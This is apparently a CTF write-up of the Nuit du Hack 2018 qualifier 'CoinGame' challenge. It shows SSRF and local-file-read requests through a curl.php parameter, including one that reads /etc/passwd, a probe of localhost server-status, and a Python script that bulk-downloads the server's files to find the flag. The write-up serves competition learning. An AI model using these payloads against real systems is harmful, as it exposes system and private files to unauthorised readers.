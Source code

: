 ```yaml
---
title:  Nuit du Hack CTF Quals 2018 - CoinGame
author: onionpsy & Crisis
categories:
  - hacking
---
```


This was the challenge's description:

```
Hi guy !
Hi !
Are you still working on your famous game?
Yes of course, I made some modifications to make it more fun.
Can I take a look at it?
No, I prefer to keep it on my file server. Sorry ;)
```

![website](/medias/ndhqual18/site.png)
And this was the website, which as you can see is rather basic : there's just one input, waiting for an url, and the post button. The post is actually doing a curl with the value passed in the `way` param: `/curl.php?way=<url>`

After some tests, we noticed that we could read server files with the `ftp://` or `file://` commands. Like that: `curl.php?way=file:///etc/passwd`.
![SSRF](/medias/ndhqual18/etcpasswd.png)
Great, looks like a [SSRF](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

We kept looking and found one interesting file `curl.php?way=file:///etc/default/tftpd-hpa`:
```
# /etc/default/tftpd-hpa TFTP_USERNAME="tftp" TFTP_DIRECTORY="/home/CoinGame" TFTP_ADDRESS="0.0.0.0:69" TFTP_OPTIONS="--secure —create"
```
It seems like the "game" was transfered on the server through FTP, in the "/home/CoinGame" directory.
We tried to find some logfiles that might have helped us find files but we unfortunately found nothing. After a while, We found that a [server-status](https://httpd.apache.org/docs/2.4/mod/mod_status.html) was actually installed on `curl.php?way=http://localhost/server-status`

Between the spam of requests, we found some weird queries like: `curl.php?way=file:///home/CoinGame/TouchMonsterFiles.py`. We tried and boom, it worked. It looks like it was the game from the description. We searched for the code on the internet, and we quickly found the repo on [Github](https://github.com/totheyellowmoon/CoinGame).

After digging the server for a while, we didn't find anything interesting. So we decided to dump the project locally and make a `diff` between the 2 games through a script (don't mind the code pls). `list` was a file containing the list of all the files of the project:

```python
import os
import wget

url = 'http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/'
out = '/tmp/out/'

with open('list') as f: # create the directories
	for line in f:
		dirname = os.path.dirname(out + line)
		if not os.path.exists(dirname):
			try:
				os.makedirs(dirname)
			except Exception as e:
				pass

with open('list') as f: # download the files
	for line in f:
		line = line.rstrip()
		try:
			wget.download(url + line, out=out + line)
		except Exception as e:
			print(e)
			pass
```

Once it was downloaded, we just had to make a diff between the 2 folders:
```bash
diff --brief -r CoinGame/ /tmp/out/
```

```
Files CoinGame/Avatars/ArchmageAntonidusHearthstone#.png and /tmp/out/Avatars/ArchmageAntonidusHearthstone#.png differ
Files CoinGame/Avatars/ChefOgre#.png and /tmp/out/Avatars/ChefOgre#.png differ
Files CoinGame/Avatars/Chevalier_noir#.png and /tmp/out/Avatars/Chevalier_noir#.png differ
Only in /tmp/out/Avatars: curl.php
Files CoinGame/Avatars/Demon#.png and /tmp/out/Avatars/Demon#.png differ
Files CoinGame/Avatars/ForetSauvage#.png and /tmp/out/Avatars/ForetSauvage#.png differ
Files CoinGame/Avatars/Gobelin#.png and /tmp/out/Avatars/Gobelin#.png differ
Files CoinGame/Avatars/Legion#.png and /tmp/out/Avatars/Legion#.png differ
Files CoinGame/Avatars/LeRoi#.png and /tmp/out/Avatars/LeRoi#.png differ
Files CoinGame/Avatars/MaitreOmbre#.png and /tmp/out/Avatars/MaitreOmbre#.png differ
Files CoinGame/Avatars/poseidon#.png and /tmp/out/Avatars/poseidon#.png differ
Files CoinGame/Avatars/RobotAlpha#.png and /tmp/out/Avatars/RobotAlpha#.png differ
Files CoinGame/Avatars/Roi_des_Nains#.png and /tmp/out/Avatars/Roi_des_Nains#.png differ
Files CoinGame/Avatars/SeigneurDragon#.png and /tmp/out/Avatars/SeigneurDragon#.png differ
Files CoinGame/Avatars/SeigneurNoir#.png and /tmp/out/Avatars/SeigneurNoir#.png differ
Files CoinGame/Avatars/Vikings#.png and /tmp/out/Avatars/Vikings#.png differ
Only in /tmp/out/CardFiles: curl.php
Only in /tmp/out/Cards: curl.php
Only in /tmp/out/Decks: curl.php
Only in /tmp/out: dump.txt
Files CoinGame/gameAnimationImages/background1.png and /tmp/out/gameAnimationImages/background1.png differ
Files CoinGame/gameAnimationImages/background2.png and /tmp/out/gameAnimationImages/background2.png differ
Files CoinGame/gameAnimationImages/background3.png and /tmp/out/gameAnimationImages/background3.png differ
Files CoinGame/gameAnimationImages/background.png and /tmp/out/gameAnimationImages/background.png differ
Files CoinGame/gameAnimationImages/Card_face_avant_black.gif and /tmp/out/gameAnimationImages/Card_face_avant_black.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_blue.gif and /tmp/out/gameAnimationImages/Card_face_avant_blue.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant.gif and /tmp/out/gameAnimationImages/Card_face_avant.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant.jpg and /tmp/out/gameAnimationImages/Card_face_avant.jpg differ
Files CoinGame/gameAnimationImages/Card_face_avant_v3.gif and /tmp/out/gameAnimationImages/Card_face_avant_v3.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_v3.jpg and /tmp/out/gameAnimationImages/Card_face_avant_v3.jpg differ
Files CoinGame/gameAnimationImages/Card_face_avant_v4.gif and /tmp/out/gameAnimationImages/Card_face_avant_v4.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_v4.jpg and /tmp/out/gameAnimationImages/Card_face_avant_v4.jpg differ
Only in /tmp/out/gameAnimationImages: curl.php
Only in CoinGame/: .git
Only in CoinGame/photo: bebe-dragon (1).jpg
Only in /tmp/out/photo: curl.php
Only in CoinGame/photo: Demon cornu.jpg
Only in CoinGame/photo: Drag
Only in CoinGame/photo: mangeur de crapau.jpg
Only in CoinGame/photo: Moderne
Only in CoinGame/photo: New
Only in CoinGame/photo: Ogres
Only in CoinGame/photo: petit etre_7247.jpg
Only in CoinGame/photo: portail demoniaque.jpg
Only in CoinGame/photo: portail oblivion.jpg
Only in CoinGame/photo: reve
Only in CoinGame/photo: serpents tournants.jpg
Only in CoinGame/photo: Source de vie.jpg
```

We quickly checked every image and we saw the actual flag on all `backgroundX.png`:
![flag](/medias/ndhqual18/flag.png)

Done :)